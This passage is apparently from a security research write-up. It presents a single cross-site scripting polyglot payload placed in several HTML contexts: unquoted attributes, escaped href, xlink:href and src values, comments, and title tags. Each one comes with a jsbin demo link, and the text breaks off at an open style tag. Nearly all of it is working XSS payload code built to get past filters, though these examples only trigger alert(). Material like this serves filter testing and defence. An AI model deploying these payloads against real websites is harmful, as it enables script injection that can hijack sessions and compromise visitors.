 * __Unquoted tag attributes:__
```html

<input type=text value=jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0D%0A//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e></input>

```
_Demo: <https://jsbin.com/zizuvad>_
* __HTML-escaped unquoted tag attributes (requires a click):__
```html

<img border=3 alt=jaVasCript:/*-/*`/*\`/*&#039;/*&quot;/**/(/* */oNcliCk=alert() )//%0D%0A%0D%0A//&lt;/stYle/&lt;/titLe/&lt;/teXtarEa/&lt;/scRipt/--!&gt;\x3csVg/&lt;sVg/oNloAd=alert()//&gt;\x3e>

```
_Demo: <https://jsbin.com/gopavuz>_
* __HTML-escaped "href"/"xlink:href" and "src" attribute values:__
```html
<a href="

jaVasCript:/*-/*`/*\`/*&#039;/*&quot;/**/(/* */oNcliCk=alert() )//%0D%0A%0D%0A//&lt;/stYle/&lt;/titLe/&lt;/teXtarEa/&lt;/scRipt/--!&gt;\x3csVg/&lt;sVg/oNloAd=alert()//&gt;\x3e

">click me</a>
```
_Demo: <https://jsbin.com/kixepi>_
```html
<math xlink:href="

jaVasCript:/*-/*`/*\`/*&#039;/*&quot;/**/(/* */oNcliCk=alert() )//%0D%0A%0D%0A//&lt;/stYle/&lt;/titLe/&lt;/teXtarEa/&lt;/scRipt/--!&gt;\x3csVg/&lt;sVg/oNloAd=alert()//&gt;\x3e

">click me</math>
```
_Demo: <https://jsbin.com/bezofuw>_
```html
<iframe src="

jaVasCript:/*-/*`/*\`/*&#039;/*&quot;/**/(/* */oNcliCk=alert() )//%0D%0A%0D%0A//&lt;/stYle/&lt;/titLe/&lt;/teXtarEa/&lt;/scRipt/--!&gt;\x3csVg/&lt;sVg/oNloAd=alert()//&gt;\x3e

"></iframe>
```
_Demo: <https://jsbin.com/feziyi>_
* __HTML comments:__
```html
<!--

jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0D%0A//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e

-->
```
_Demo: <https://jsbin.com/taqizu>_
* __Arbitrary common HTML tags:__
```html
<title>

jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0D%0A//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e

</title>
```
_Demo: <https://jsbin.com/juzuvu>_
```html
<style>

```